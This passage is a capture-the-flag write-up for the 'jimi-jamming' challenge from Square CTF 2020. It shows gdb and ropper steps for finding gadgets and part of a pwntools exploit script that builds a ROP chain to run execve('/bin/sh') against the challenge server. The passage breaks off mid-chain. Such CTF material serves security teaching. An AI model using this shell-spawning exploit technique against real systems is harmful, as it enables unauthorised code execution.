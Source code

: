 In this challenge we are also allowed to place 10 bytes into the jail at a
position of our choosing.

Eventually the region is then mapped read-only and executable.

Since the content of the region does not change between calls to the
executable (I think this would have been a nice twist) we can simply dump the
contents and try to find gadgets inside it:

```  
$ gdb jimi-jamming

gef➤  break *(main + 108)  
gef➤  run  
gef➤  dump memory jail.bin (void**)ROPJAIL ((void**)ROPJAIL + 0x1000)  
```

We can easily analyse it using `ropper`:  
```  
$ ropper --arch x86_64 -r -f jail.bin  
[...]  
```

Sadly there will be no `syscall` instruction inside the blob.  
Luckily we can write some custom data though.  
My idea was to write `/bin/sh\x00` and a syscall instruction `\x0f\x05` to
eventually execute `execve("/bin/sh", NULL, NULL)`

This is rather straight forward and may look like [this](jimi-jamming/x.py):  
```python  
from pwn import *  
import sys

# io = process(["./jimi-jamming"], env={ "LD_PRELOAD": "./libc.so.6" })  
# io = process(["./jimi-jamming"])  
io = remote("challenges.2020.squarectf.com", 9001)

io.recvuntil(b"somewhere\n")  
key = b"\x0f\x05/bin/sh\x00"  
io.send(key)  
io.recvuntil(b"key?\n")  
key_offset = 8  
io.send(str(key_offset).encode("utf-8"))

io.recvline()  
center = io.recvline().rsplit(b" ", 1)[-1].strip()  
jail = int(center.decode("utf-8")[2:], 16)  
base = jail - 0x6000

print("jail", hex(jail))  
print("base", hex(base))

io.recvline()

pop_rdi = 0x0000000000000daf + jail;  
pop_rax = 0x0000000000000dcf + jail;  
pop_rsi = 0x0000000000000d3f + jail;  
pop_rdx = 0x00000000000007df + jail;  
syscall = key_offset + jail;  
slope = jail

print("key at ", hex(jail + key_offset))

rop = p64(pop_rdi) + p64(jail + key_offset + 2) + \  
       p64(pop_rax) + p64(0x3b) + \  
       p64(pop_rsi) + p64(0) + \  
       p64(pop_rdx) + p64(0) + \  
```